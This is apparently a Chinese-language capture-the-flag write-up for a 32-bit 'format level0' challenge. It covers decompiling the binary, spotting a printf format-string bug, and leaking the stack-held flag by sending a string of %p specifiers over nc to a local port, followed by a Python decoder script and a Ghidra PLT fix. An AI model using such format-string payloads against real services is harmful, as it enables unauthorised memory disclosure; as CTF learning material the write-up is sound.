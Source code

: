 # format level0

## 文件分析

下载`format_level0`, 保护全开
ghidra分析为32位程序

## 逆向

> Ghidra这次解析失误了，完全不可读...  
> 用的Decompiler Explorer，BinaryNinja给出的正确代码
>
> ![GhidraFailure](../assets/GhidraFail.png)

反编译后，flag已被读取到栈上，并且存在printf漏洞，gdb调试可知该flag位于第7个参数  
笨办法强攻：使用大量%p泄露栈上信息，找到flag后解析(直接%7$s会SIGSEGV)

## EXPLOIT

nc localhost 34109  
*%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p*

从第7个16进制数开始复制flag直到0xa的内容

```python
txt = "<C-S-v>" # 粘贴内容
slices = txt.split('0x')[1:]
flag = ''

for s in slices:
    for i in range(6, -1, -2):
        flag += chr(int(s[i:i+2], 16))

print(flag)
```

> 奇怪的是，别的flag都是moectf开头，这个是JBtf开头，不知道出题者何意

Done.

## HOTFIX

已在github发issue得到回复：只需要将`.plt`, `.plt.sec`和`.plt.got`全部设置好ebx的值即可，
在`.plt`中已给出ebx值，只要在其他段全选后右键设置寄存器的值与`.got`的首地址相同即可

[REF](https://github.com/NationalSecurityAgency/ghidra/issues/5825)
